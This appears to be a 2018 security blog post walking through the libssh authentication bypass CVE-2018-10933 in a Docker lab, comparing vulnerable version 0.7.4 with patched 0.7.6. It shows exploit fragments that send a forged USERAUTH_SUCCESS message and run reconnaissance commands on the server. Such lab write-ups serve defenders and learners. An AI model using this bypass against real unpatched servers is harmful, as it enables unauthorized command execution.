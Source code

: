```yaml
---
slug: libssh-bypass-cve/
title: LibSSH New Vulnerability
date: 2018-10-18
category: attacks
subtitle: New vulnerability on libssh CVE-2018-10933
tags: security, bug, libssh, pentesting
image: https://res.cloudinary.com/fluid-attacks/image/upload/v1620330935/blog/libssh-bypass-cve/cover_ad5zp7.webp
alt: Painting a red and blue wall
description: Here, we will explain a vulnerability that allows a remote attacker to bypass authentication by sending a user-authenticated packet to the server.
keywords: Libssh, Security, CVE, Vulnerability, Pentesting, PoC, Ethical Hacking, Pentesting
author: Jonathan Armas
writer: johna
name: Jonathan Armas
about1: Systems Engineer, Security+
about2: '"Be formless, shapeless like water" Bruce Lee'
source: https://unsplash.com/photos/d6YyP28-Ycw
---
```


The new vulnerability in `LibSSH`, tracked as
[CVE-2018-10933](https://www.libssh.org/security/advisories/CVE-2018-10933.txt),
resides on the server code which can enable a client to bypass the
authentication process and create channels without permission. This
affects servers using versions `0.6` and above being used in server
mode.

The bug was discovered by Peter Winter-Smith of NCC Group, it’s like a
`jedi` trick:

- User: `Let me in`

- Server: NO

- User: `I’m authenticated, let me in`

- Server: OK, YOU’RE IN

Why does this happen? Because of the way `LibSSH` checks for
authentication when it receives an `SSH2_MSG_USERAUTH_SUCCESS` message
instead of the `SSH2_MSG_USERAUTH_REQUEST` message. It acts like the
user is already authenticated, so an attacker could bypass the
authentication and execute commands on the server.

## Building the enviroment

How does LibSSH work? It’s a `C` library to implement `SSHv2` protocol
on the client and server side. First, we need to write our server-side
code. We are going to use the sample that `LibSSH` has
(`samplesshd-cb.c`) and modify it for our purposes.

In the `ssh_channel_callbacks_struct` we are going to put the following
line in order to have the `exec` functionality:

**exec request.**

``` C
.channel_exec_request_function = exec_request
```

<div class="imgblock">

![channel-exec](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330934/blog/libssh-bypass-cve/channel-exec_nkvv1s.webp)

</div>

Next, add the `exec_request` function, this will take our commands and
execute them on the server:

``` C
static int exec_nopty(const char *command) {
            /* exec the requested command. */
            execl("/bin/sh", "sh", "-c", command, NULL);
            exit(0);

    return SSH_OK;
}

static int exec_request(ssh_session session, ssh_channel channel,
                        const char *command, void *userdata) {

    printf("Allocated exec  \n");
    (void) userdata;
    (void) session;
    (void) channel;

    return exec_nopty(command);
}
```

If you have `LibSSH` with version `0.7.4` you can simply save it,
compile it, and execute it. If not, you can use our method. We are going
to use a `docker` container and install both versions (a vulnerable one
and a patched one) and then, pass our code to the server and run it. The
example files can be downloaded [here](cve201810933.zip).

To build the container, open a `terminal` in the folder of the
`Dockerfile` and run this command:

``` bash
host$ docker build -t fluidattackscve201810933 .
```

This will download all the necessary files and compile all the sources
of `LibSSH`.

Then, to open the container simply run this command:

``` bash
host$ docker run -it -p 2222:2222 fluidattackscve201810933:latest /bin/bash
```

This is going to mirror our port `2222` to the container port `2222` in
order to be able to run our tests. Also, it will open a `bash` terminal
on the container machine where we will run our `LibSSH` server.

## Exploiting the vulnerability

In this case, we are going to use `LibSSH v0.7.4` and test the solution
with `LibSSH v0.7.6`. The `PoC` is on `Python` version `2`, and you can
check its source
[here](https://www.openwall.com/lists/oss-security/2018/10/17/5), but if
you downloaded our files, it’s there as `exploit.py`.

In order to run this `PoC` you will need `paramiko`. You can install it
by running:

``` bash
host$ pip install paramiko
```

In the container, run the following command to start the vulnerable
`LibSSH` server:

``` bash
container$ ./tmp/libssh-0.7.4/build/examples/samplesshd-cb -k ~/.ssh/id_dsa 0.0.0.0 -k ~/.ssh/id_rsa -p 2222 --verbose
```

The verbose flag is to see what is sending and receiving our server.

Then, in your machine run the exploit with:

``` bash
host$ python exploit.py
```

If you check your container you can see this:

<div class="imgblock">

![ssh-bypass](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330933/blog/libssh-bypass-cve/ssh-bypass_zj8e91.webp)

</div>

When the server is expecting the `SSH2_MSG_USERAUTH_REQUEST`, we are
sending an `SSH2_MSG_USERAUTH_SUCCESS`.

``` python
m.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
transport._send_message(m)
```

The server accepts it, and we bypassed the authentication. Then, we can
send our commands to the server with:

``` python
cmd_channel.exec_command("whoami; id; ls -la /; ip addr")
```

<div class="imgblock">

![command-exec](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330934/blog/libssh-bypass-cve/command-exec_yuqxav.webp)

</div>

## The solution

<div class="imgblock">

![dont-work](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330934/blog/libssh-bypass-cve/dont-work_qzntdl.webp)

</div>

The LibSSH version `0.7.6` doesn’t have this vulnerability. We can test
it, too, in our container. We just need to run:

``` bash
container$ ./tmp/libssh-0.7.6/build/examples/samplesshd-cb -k ~/.ssh/id_dsa 0.0.0.0 -k ~/.ssh/id_rsa -p 2222 --verbose
```

And on our machine the exploit again:

``` bash
host$ python exploit.py
```

<div class="imgblock">

![no-vulnerable](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330933/blog/libssh-bypass-cve/no-vulnerable_z7vihm.webp)

</div>

What’s happening? We send the `SSH2_MSG_USERAUTH_SUCCESS`. The server
receives it, but it won’t authenticate us because they added a
validation on their code. When the packet is
`SSH2_MSG_USERAUTH_SUCCESS`, then, it checks for the authentication
state. If it is not one of the valid states, it denies the packet.

<div class="imgblock">

![Code on
src/packet.c](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330934/blog/libssh-bypass-cve/solution_uaqs60.webp)

<div class="title">

Figure 1. Code on src/packet.c

</div>

</div>

Here you can see the difference between responses for a vulnerable
version and a non-vulnerable one.

<div class="imgblock">

![Vulnerable](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330933/blog/libssh-bypass-cve/vulnerable_mbwn5t.webp)

<div class="title">

Figure 2. Vulnerable

</div>

</div>

<div class="imgblock">

![Non-vulnerable](https://res.cloudinary.com/fluid-attacks/image/upload/v1620330933/blog/libssh-bypass-cve/no-vulnerable_z7vihm.webp)

<div class="title">

Figure 3. Non-vulnerable

</div>

</div>

If you have `LibSSH` in your server, and you are using a server
component, you should install the updated, or patched, versions of
`LibSSH`.
